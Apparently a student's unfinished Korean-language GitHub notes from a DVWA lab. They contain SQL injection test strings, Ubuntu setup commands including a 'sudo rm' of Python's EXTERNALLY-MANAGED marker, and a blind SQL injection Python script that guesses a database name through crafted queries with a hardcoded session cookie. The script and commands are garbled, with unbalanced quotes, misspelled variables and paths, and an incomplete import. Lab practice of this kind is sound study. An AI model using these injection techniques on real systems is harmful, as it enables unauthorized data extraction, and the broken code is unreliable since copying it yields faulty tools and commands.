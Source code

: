 # 오늘의 코드들....쓰다 말았음..

    DVWA 에 
    select first_name, list_name from users where user_id = '$id';
    select first_name, list_name from users where user_id = '1' and 1=2#';
    true and false = false
    select first_name, list_name from users where user_id = '1' or 1=2#';
    true or false = true
    select first_name, list_name from users where user_id
    

패키지 설치
    
    blind_sqli.py
    sudo apt install python3-pip
    pip3 install beautifulsoup4
    
    sudo vi /etc//recoly.conf
    pgdn
    i 누름
    nameserver 127.0.0.53 -> namesrver 8.8.8.8 변경
    esc 누름
    : 누름
    wq! 누름
    sudo apt update
    sudo apt autoclean
    sudo apt updete
    
    안된다면
    sudo rm /uer lib/python3.12/EXTERNAKKY-MANAGE

    import requests
    from bs4 import BeautifulSoup
    from urllib
    import string
    
    TARGET_URL = "http://10.104.147.200:9980/vulnerabilities/sqli_blind/
    URI1 = "?id="
    URI2 = "?id={}&Submit=Submit#"
    cookies = "PHPSESSID=qv7vnnbi34na8mv5cp2sfa50m04; security=low"
    response = requests.get(TARGET_URL, headers={"Cookie":cookies})
    
    # print(response.status_code)

    
    for database_length in range(10):
      query = "1" AND LENGTH(DATABASE()) = " + str(database_length)+urllib.parse.quote("#")
      print(query)
      request_url = TARGET_URL+URI1+query+URI2
      query_response = requests.get(request_url,headers={"Cookie":cookies})
      #print(query_response.text)

    soup = BeautifulSoup(query_response.content, 'html.parser')
    check_value = soup.find("pre")
    if "User ID exists in the database." in check_value:
    print("Database length :" str(database_langth))
    db_length=database_length

    database_name = ''

    for c in string.ascii_lowercase:
      duery = "1" AND SUBSTRING(DATABASE(), 1, 1) = " + c + urllib.parse.quote("#")
      request_url = TARGET_URL+URI1+query+URI2
      query_response = requests.get(request_url,headers={"Cookie":cookies})
      soup = BeautifulSoup(query_response.content, 'html.parser')
      check_value = soup.find("pre")
      # print(check_value.text)

      if "User ID exists in the database." in check_value:
        print(c) 
       database_name += c
    print("Database name : "+ database_name)

    "1' AND(SELECT COUNT(*) FROM information_schema.tables WHERE table_type='base ...)


그리고 자바 스크립트 어택이라는 화면에서 

![image](https://github.com/user-attachments/assets/a0fd1bd9-ecd0-47c6-9f45-fdb4fcad4c77)

---

![image](https://github.com/user-attachments/assets/9459b5e0-c50d-4cdf-98a1-8f80e82055ab)


> sqlmap 활용하여 위에 코드 덜 쓴 sql를 쓸 수 있다.

